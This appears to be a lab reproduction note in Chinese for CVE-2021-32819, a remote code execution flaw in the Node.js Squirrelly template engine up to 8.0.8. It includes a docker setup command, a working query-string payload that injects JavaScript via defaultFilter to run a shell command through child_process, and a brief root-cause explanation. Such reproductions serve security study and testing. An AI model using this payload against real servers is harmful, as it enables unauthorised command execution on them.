


# Nodejs squirrelly模版引擎RCE（CVE-2021-32819）

## 影响版本

squirrelly <= 8.0.8

## 环境搭建

```
docker-compose up -d
```

## 复现

```
/?Express=aaaa&autoEscape=&defaultFilter=e%27);var+require=global.require+%7C%7C+global.process.mainModule.constructor._load;+require(%27child_process%27).exec(%27touch+/tmp/1111%27);//
```



P.S. 发送payload后，服务器会一直未响应直到超时，但是命令已经成功执行


## 漏洞简析



env.defaultFilter的值可以被用户传入的参数覆盖，从而造成js代码注入，最终导致命令执行
